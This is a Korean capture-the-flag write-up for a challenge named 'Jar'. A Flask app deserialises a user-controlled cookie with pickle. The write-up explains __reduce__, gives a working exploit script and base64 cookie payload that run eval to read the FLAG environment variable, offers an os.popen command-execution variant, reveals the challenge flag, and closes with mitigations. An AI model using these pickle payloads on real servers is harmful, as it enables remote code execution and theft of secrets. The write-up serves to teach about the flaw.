

# Jar
---

## 1. 문제 정보

- `/` : `contents` 쿠키를 읽어 목록을 그림 위에 출력하는 페이지
- `/add` : 입력한 아이템을 목록에 추가하고, 목록을 **pickle 직렬화 → base64 → 쿠키** 로 저장

핵심 소스 (`jar.py`):
```python
contents = request.cookies.get('contents')
if contents: items = pickle.loads(base64.b64decode(contents))   # ← 취약 지점
...
response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
```

---

## 2. 취약점

**Python 역직렬화 취약점**

- 서버가 **사용자가 조작 가능한 쿠키(`contents`)** 를 `pickle.loads()` 로 그대로 역직렬화한다.
- `pickle` 은 객체를 복원할 때 `__reduce__` 가 반환한 `(callable, args)` 를 **그대로 호출**한다 -> 신뢰할 수 없는 데이터를 `pickle.loads` 하면 RCE가 가능하다.
- 쿠키는 클라이언트가 자유롭게 바꿀 수 있으므로, 악의적인 pickle 스트림을 넣으면 서버에서 우리가 원하는 코드가 실행된다.

여기서 `__reduce__` 에 대한 내용 이해안가서 정리
--> pickle은 객체 저장할때 값을 통째로 담는것이아닌 "어떻게 다시 만들지 정보담는" 방식 

그 정보를 담는게 객체의 `__recude__()` method 

그거를 반환하는값이 tuple (callable,args)

복원 시 pickle 내부 동작은 사실상 아래와 같다. 즉 `loads()` 는 파싱만 하는 게 아니라 **함수를 실제로 호출**한다 — 여기가 RCE의 뿌리다.
```python
obj = callable(*args)   # 이값이 loads()의 결과
```

바이트코드(`pickletools.dis`)로 보면 3개 opcode가 `callable(*args)` 를 구성한다.

exploit에 대입하면:
```python
return (eval, ("[__import__('os').environ.get('FLAG')]",))
#        └callable┘  └───────────── args[0] ─────────────┘
```
복원 시 `eval("[...]")` 이 호출되어 `[flag]` 리스트가 `loads()` 의 반환값(`items`)이 되고, 서버가 이를 HTML로 반사한다.

**Exfiltration(유출) 아이디어**
- `os.system('...')` 류는 실행 결과가 서버 stdout으로만 나가서 공격자가 볼 수 없다.
- 그런데 `/` 라우트는 역직렬화된 `items`(리스트)를 **순회하며 HTML로 반사(reflect)** 해준다.
- 따라서 payload가 **`[FLAG 문자열]` 형태의 리스트를 반환**하도록 만들면, 플래그가 응답 페이지에 그대로 렌더링된다. → 별도 아웃바운드 채널 없이 유출 성공.

---

## 3. 분석 과정

1. `jar.py` 검토 중 두 라우트(`/`, `/add`)가 모두 `contents` 쿠키를 `pickle.loads(base64.b64decode(...))` 하는 것을 발견.
2. 쿠키는 사용자 제어 입력이므로 **신뢰 경계 밖의 데이터를 pickle 역직렬화** → 전형적인 RCE 시나리오로 판단.
3. 플래그가 서버 **환경변수 `FLAG`** 에 존재함을 `Dockerfile` / `CMD` 에서 확인 (`ENV FLAG_B64=...` 를 디코딩해 export).
   - 배포본에는 `FLAG_B64` 가 base64로 들어있어 로컬 확인 가능: `RkxBR3tUMzRNX1JPT0tJRV9KQVJfUElDS0xFfQ==` → `FLAG{T34M_ROOKIE_JAR_PICKLE}`
4. 결과 유출 경로로, `jar()` 가 `items` 를 그대로 HTML에 뿌려준다는 점을 이용하기로 결정.

---

## 4. 풀이 과정

1. `__reduce__` 를 정의한 클래스로 악성 pickle 스트림을 만든다.
   - pickle.loads() 내부 obj=callable(*args)로 이루어짐
   - callable로 `eval` 을 쓰고, 인자로 `"[__import__('os').environ.get('FLAG')]"` 를 넘긴다.
   - 역직렬화 시 `eval("[...]")` 이 호출되어 **`[flag]` 리스트**가 복원된다.
2. 이 스트림을 `pickle.dumps` → `base64.b64encode` 하여 쿠키 값으로 만든다.
3. 이 값을 `contents` 쿠키에 넣고 `GET /` 요청.
4. 서버가 쿠키를 역직렬화하면서 `items = [flag]` 가 되고, 페이지 HTML의 `<div>...` 안에 플래그가 그대로 렌더링된다.

---

## 5. Payload / Exploit

**페이로드 생성 스크립트 (`exploit.py`)**
```python
import pickle, base64

class Exploit:
    def __reduce__(self):
        # eval이 리스트를 반환 -> jar() 라우트가 items를 순회하며 HTML로 반사
        return (eval, ("[__import__('os').environ.get('FLAG')]",))

payload = base64.b64encode(pickle.dumps(Exploit())).decode()
print(payload)
```

**생성된 쿠키 값**
```
gASVQgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwmW19faW1wb3J0X18oJ29zJykuZW52aXJvbi5nZXQoJ0ZMQUcnKV2UhZRSlC4=
```

**전송**
직접cookie 의 contexts값을 집어넣었는데 curl 로 새로요청해도 무관함


> 대체 아이디어: `eval` 대신 `os.popen` 으로 임의 명령 결과를 리스트에 담아 반사시킬 수도 있다.
> `return (eval, ("[__import__('os').popen('id').read()]",))`

---


## 6. 대응 방안

- **신뢰할 수 없는 데이터를 절대 `pickle.loads` 하면안됨.** 세션/쿠키 데이터 직렬화에는 `json` 등 데이터 전용 포맷 사용.
- 무결성이 필요하면 서버 비밀키로 서명 하거나, Flask의 서명된 세션(`itsdangerous`) 사용.
- 역직렬화가 불가피하면 화이트리스트 기반의 안전한 로더(`RestrictedUnpickler` 등)로 허용 클래스/함수를 제한.
- 사용자 입력을 그대로 HTML에 반사하지 말고 이스케이프(XSS 방지) 처리.
